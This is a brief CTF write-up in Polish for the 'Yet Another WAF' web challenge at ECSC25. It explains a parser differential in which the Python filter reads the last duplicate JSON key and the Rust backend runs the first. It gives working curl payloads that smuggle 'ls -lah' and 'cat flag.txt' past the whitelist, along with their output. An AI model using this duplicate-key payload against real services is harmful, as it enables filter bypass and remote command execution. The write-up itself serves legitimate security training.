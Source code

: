 # Yet Another WAF - re - web

### Vulnerability

Parser Differential

### Solution

Backend w Rustcie handluje inaczej pola w obiekcie z taką samą nazwą (bierze pierwszy occurance), natomiast backend w Pythonie bierze ostatni, powodując to że Python czyta komendę `id`, która jest zwhitelistowana, a Rust czyta i wykonuje tą pierwszą:

```shell
$ curl "https://yaw.ecsc25.hack.cert.pl/run" -X POST --json '{"cmd": "ls -lah", "cmd": "id"}'
"total 76K\ndrwxr-xr-x 1 root root 4.0K Jul  1 18:43 .\ndrwxr-xr-x 1 root root 4.0K Jul  1 18:44 ..\n-rw-r--r-- 1 root root 1.1K Jul  1 18:44 .rustc_info.json\n-rw-r--r-- 1 root root  46K Jul  1 18:43 Cargo.lock\n-rw-r--r-- 1 root root  174 Jul  1 18:10 Cargo.toml\n-rw-r--r-- 1 root root   47 Jul  1 18:10 flag.txt\ndrwxr-xr-x 7 root root 4.0K Jul  1 18:44 release\ndrwxr-xr-x 2 root root 4.0K Jul  1 18:43 src\n"⏎

$ curl "https://yaw.ecsc25.hack.cert.pl/run" -X POST --json '{"cmd": "cat flag.txt", "cmd": "id"}'
"ecsc25{names_within_an_object_SHOULD_be_unique}"
```
